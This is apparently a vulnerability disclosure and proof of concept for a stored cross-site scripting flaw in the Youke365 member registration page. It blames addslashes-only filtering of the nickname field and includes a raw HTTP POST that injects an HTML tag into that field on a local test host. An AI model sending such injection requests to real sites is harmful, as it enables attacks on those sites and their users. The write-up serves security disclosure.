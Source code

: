 ## Youke365 XSS 

## PoC by britzlieg

### vulnerability code:

In file  `app/member/controller/register.php`, line 51:

![](https://rawcdn.githack.com/britzlieg/POC/03a8851db99dc77c56fe7eec0e2a6e0683b4f75e/res/youke365_1_4_6/c1.jpg)

the `user_nickname` parameter is filtered by php function `addslashes`. As we all know that `addslashes` can not filter the `<` and `>`, so it can be exploited by using specail html characters.

the speacial html characters will display in the template html:

![](https://rawcdn.githack.com/britzlieg/POC/03a8851db99dc77c56fe7eec0e2a6e0683b4f75e/res/youke365_1_4_6/c2.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/03a8851db99dc77c56fe7eec0e2a6e0683b4f75e/res/youke365_1_4_6/c3.jpg)


Here is the normal register action:

![](https://rawcdn.githack.com/britzlieg/POC/03a8851db99dc77c56fe7eec0e2a6e0683b4f75e/res/youke365_1_4_6/n1.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/03a8851db99dc77c56fe7eec0e2a6e0683b4f75e/res/youke365_1_4_6/n2.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/03a8851db99dc77c56fe7eec0e2a6e0683b4f75e/res/youke365_1_4_6/n3.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/03a8851db99dc77c56fe7eec0e2a6e0683b4f75e/res/youke365_1_4_6/n4.jpg)

Here is the vulnerable register action:

![](https://rawcdn.githack.com/britzlieg/POC/03a8851db99dc77c56fe7eec0e2a6e0683b4f75e/res/youke365_1_4_6/x1.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/03a8851db99dc77c56fe7eec0e2a6e0683b4f75e/res/youke365_1_4_6/x2.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/03a8851db99dc77c56fe7eec0e2a6e0683b4f75e/res/youke365_1_4_6/x3.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/03a8851db99dc77c56fe7eec0e2a6e0683b4f75e/res/youke365_1_4_6/x4.jpg)


### POC:

```
POST /member/register.html HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://127.0.0.1:9000
DNT: 1
Connection: close
Referer: http://127.0.0.1:9000/member/register.html
Cookie: PHPSESSID=g3jn9v9ivo49pc7bbv4d01p57j; UM_distinctid=17332dfc80e1db-08379b070a6703-4c302273-384000-17332dfc810cd0; CNZZDATA1257188920=362799075-1594281266-http%253A%252F%252F127.0.0.1%253A9000%252F%7C1594281266
Upgrade-Insecure-Requests: 1

nick_name=<a>test2</a>&email=abcd%40qq.com&pass=123456&code=4322&action=register
```